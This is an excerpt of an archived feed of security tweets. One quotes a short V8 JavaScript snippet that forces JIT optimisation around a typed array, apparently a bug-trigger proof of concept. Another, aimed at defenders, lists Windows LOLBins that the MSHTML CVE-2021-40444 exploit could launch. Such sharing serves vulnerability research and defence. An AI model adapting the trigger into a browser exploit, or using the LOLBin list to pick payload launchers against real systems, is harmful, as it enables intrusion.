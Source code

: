 var a;
function foo() {
    a = new Uint32Array(100);
}
%PrepareFunctionForOptimization(foo);
foo();
foo();
a["xxx"] =1;
delete a["xxx"];
%OptimizeFunctionOnNextCall(foo);
foo();
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>195</code></td>
<td>Favorites: <code>622</code></td>
</tr></table>

---

# Max_Mal_
**https://twitter.com/Max_Mal_/status/1437564247324639234 _at 2021-09-13, 23:49:59_**
<blockquote>
#MSHTML RCE Vulnerability #CVE-2021-40444 (#CVE202140444)

#DFIR #BlueTeam - Not only Control - CPL‼️

Potentially the exploit could run:
 #LOLBins 🔥🔥🔥🔥
MSHTA - HTA ✅
WSCRIPT - JS, JSE, VBA, WSF...✅
JAVAW - JAR ✅
MSIEXEC - MSI ✅
RegEdit - REG ✅

And MORE (?) https://t.co/CupB3SOmKV
</blockquote>

<table><tr>
<td><img src="pictures/85c992d2f38501ee93267cbe1cf6982687b28f3e6f80f5fa62bf36986359269b.jpg" alt="85c992d2f38501ee93267cbe1cf6982687b28f3e6f80f5fa62bf36986359269b.jpg"></td>